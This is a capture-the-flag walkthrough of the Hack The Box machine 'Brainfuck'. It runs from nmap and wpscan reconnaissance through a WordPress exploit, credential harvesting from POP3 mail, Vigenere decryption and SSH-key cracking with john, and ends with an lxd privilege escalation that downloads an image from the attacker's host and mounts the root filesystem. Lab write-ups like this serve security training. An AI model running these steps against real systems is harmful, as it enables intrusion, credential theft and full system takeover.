# [Brainfuck](https://app.hackthebox.com/machines/brainfuck)

```bash
nmap -p- --min-rate 10000 10.10.10.17 -Pn 
```




After discovering open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,25,110,143,443 10.10.10.17 -Pn 
```



From nmap scan result, I see that I need to add this ip address into '**/etc/hosts**' file.

```bash
www.brainfuck.htb
sup3rs3cr3t.brainfuck.htb
```


While accessing the application, I see that is Wordpress website.



I grab orestis@brainfuck.htb as a username.


Let's use `wpscan` tool to search exploit for this website.
```bash
wpscan --url https://brainfuck.htb --disable-tls-checks
```



It finds this [exploit](https://www.exploit-db.com/exploits/41006).


I need to create **malicious html file**.




Now, we are admin.




I browse to the page called `wp-admin` to look at SNMP configuration as because from my nmap scan I saw that port (SNMP and POP3 are open).




There's password to see this, I just need to look at Source Code (Ctrl+U)



Password: kHGuERB29DNiNE


Let's connect to port (110) by using `nc`
```bash
nc -nv 10.10.10.17 110
USER orestis
PASS kHGuERB29DNiNE
```



I just enumerate POP3 server via `retr 1` and `retr 2` commands to see mails.




I grab credentials from here.

orestis: kIEnnfEKJ#9UmdO


From nmap scan result, I saw application 'sup3rs3cr3t.brainfuck.htb', let's login here via grabbed credentials.





Here's interesting part, `Key Chat`.




I grabbed all messages of them and try to decrypt.

I find a key of 'Vigenere cipher' equals to  “fuckmybrain” or “mybrainfuck” or maybe “brainfuckmy”.







While I browse the page 'https://brainfuck.htb/8ba5aa10e915218697d1c658cdee0bb8/orestis/id_rsa', I got private key of 'orestis' user.

Let's crack this via `ssh2john` tool.

```bash
ssh2john id_rsa > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```




orestis: 3poulakia!


Let's login into machine via `ssh`.
```bash
ssh -i id_rsa orestis@10.10.10.17
```

user.txt




While enumeration via `id` command, I see that this user belongs to group called '**lxd**' .




I used privilege escalation technique from [here](https://www.hackingarticles.in/lxd-privilege-escalation/).



Now, I need to transfer malicious 'gunzip' file (being 2023) into machine.

```bash
python3 -m http.server --bind 10.10.16.8 8080
```


Download this script.

```bash
wget http://10.10.16.8:8080/alpine-v3.19-x86_64-20231226_1158.tar.gz
```



After this, we need to execute below commands.

```bash
lxc image import ./alpine-v3.19-x86_64-20231226_1158.tar.gz --alias myimage
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```




